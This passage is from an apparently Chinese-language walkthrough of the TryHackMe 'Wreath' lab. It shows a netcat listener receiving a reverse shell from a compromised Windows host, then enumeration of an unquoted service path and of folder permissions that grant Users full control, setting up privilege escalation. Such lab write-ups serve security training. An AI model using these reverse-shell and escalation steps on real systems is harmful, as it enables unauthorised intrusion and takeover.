 
收到nc的rev shell
```
──(root💀kali)-[~/tryhackme/Wreath]
└─# nc -lnvp 443                          
listening on [any] 443 ...
connect to [10.50.102.104] from (UNKNOWN) [10.200.101.100] 51276
Microsoft Windows [Version 10.0.17763.1637]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\xampp\htdocs\resources\uploads>whoami
whoami
wreath-pc\thomas

```

# Task 42  AV Evasion Enumeration

未加双引号的路径服务：SystemExplorerHelpService
```
S C:\xampp\htdocs\resources\uploads> sc.exe qc SystemExplorerHelpService
sc.exe qc SystemExplorerHelpService
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: SystemExplorerHelpService
        TYPE               : 20  WIN32_SHARE_PROCESS 
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 0   IGNORE
        BINARY_PATH_NAME   : C:\Program Files (x86)\System Explorer\System Explorer\service\SystemExplorerService64.exe
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : System Explorer Service
        DEPENDENCIES       : 
        SERVICE_START_NAME : LocalSystem

PS C:\xampp\htdocs\resources\uploads> powershell "get-acl -Path 'C:\Program Files (x86)\System Explorer' | format-list"
powershell "get-acl -Path 'C:\Program Files (x86)\System Explorer' | format-list"


```

检查文件夹权限
```
Path   : Microsoft.PowerShell.Core\FileSystem::C:\Program Files (x86)\System Explorer
Owner  : BUILTIN\Administrators
Group  : WREATH-PC\None
Access : BUILTIN\Users Allow  FullControl
         NT SERVICE\TrustedInstaller Allow  FullControl
         NT SERVICE\TrustedInstaller Allow  268435456
         NT AUTHORITY\SYSTEM Allow  FullControl
         NT AUTHORITY\SYSTEM Allow  268435456
         BUILTIN\Administrators Allow  FullControl
         BUILTIN\Administrators Allow  268435456
         BUILTIN\Users Allow  ReadAndExecute, Synchronize
         BUILTIN\Users Allow  -1610612736
         CREATOR OWNER Allow  268435456
         APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES Allow  ReadAndExecute, Synchronize
         APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES Allow  -1610612736
         APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES Allow  ReadAndExecute, Synchronize
         APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES Allow  -1610612736
Audit  : 
```